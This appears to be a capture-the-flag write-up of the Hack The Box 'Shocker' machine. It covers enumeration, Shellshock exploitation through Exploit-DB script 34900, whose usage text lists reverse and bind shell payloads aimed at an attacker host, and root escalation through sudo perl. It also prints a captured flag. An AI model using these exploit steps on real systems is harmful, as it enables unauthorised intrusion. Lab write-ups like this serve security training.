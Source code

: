 # Shocker 
A Linux Box featuring the Shellshock vulnerability

## Enumeration
First we run nmap scan against the machine.
![](./images/shocker_nmap.png)

We can see that two ports are open 80 (http) and 2222 (SSH)

Since we have Apache running, let see how the site looks like
![](./images/shocker_http.png)

We now do directory enumeration
![](./images/shocker_gobuster.png)
Above we can see that we found a directory `/cgi-bin/`  

Let's futher bruteforce it to see if we have any scripts in there.
![](./images/shocker_gobuster2.png)
We found a script `user.sh` in `/cgi-bin/` directory

Requesting this in burp
![](./images/shocker_gobuster2.png)

It seems like an output for a script, so we might have a shellshock vulnerability.

We run this by searchsploit.
![](./images/shocker_ss.png)
Out of all the results, 34900 look good as it concerns with Apache mod_cgi, so we give it a try.

Lets  try it
```shell
┌──(kali㉿kali)-[~/htb/shocker]
└─$ locate 34900.py  
/usr/share/exploitdb/exploits/linux/remote/34900.py
                                                                                                            
┌──(kali㉿kali)-[~/htb/shocker]
└─$ cp /usr/share/exploitdb/exploits/linux/remote/34900.py .
                                                                                                            
┌──(kali㉿kali)-[~/htb/shocker]
└─$ vim 34900.py     
```

Here is the usage
```python
Usage:                                                                                                  
 16 ./exploit.py var=<value>                                                                                
 17                                                                                                         
 18 Vars:                                                                                                   
 19 rhost: victim host                                                                                      
 20 rport: victim port for TCP shell binding                                                                
 21 lhost: attacker host for TCP shell reversing                                                            
 22 lport: attacker port for TCP shell reversing                                                            
 23 pages:  specific cgi vulnerable pages (separated by comma)                                              
 24 proxy: host:port proxy                                                                                  
 25                                                                                                         
 26 Payloads:                                                                                               
 27 "reverse" (unix unversal) TCP reverse shell (Requires: rhost, lhost, lport)                             
 28 "bind" (uses non-bsd netcat) TCP bind shell (Requires: rhost, rport)                                    
 29                                                                                                         
 30 Example:                                                                                                
 31                                                                                                         
 32 ./exploit.py payload=reverse rhost=1.2.3.4 lhost=5.6.7.8 lport=1234                                     
 33 ./exploit.py payload=bind rhost=1.2.3.4 rport=1234    
 ```
 
 lets fire the script
 
 
 
 Now we have shell access, lets get the user flag
 ```shell
 10.10.10.56> cat user.txt
a4f237c30bbd60e6be8f2079bbbba8c2

// Also checked sudo commands
10.10.10.56> sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

From above we can see that we can run `perl` as root. This is nice and will help in privelege escalation.

Now, we try to find a perl reverse shell. I found one at pentest monkey

Below is a failed attempt
![](./images/shocker_exploit1.png)

Below i try with sudo precedding the full path of perl as mentioned in `sudo -l`
![](./images/shocker_exploit2.png)

Now we have root. Cheers!



```

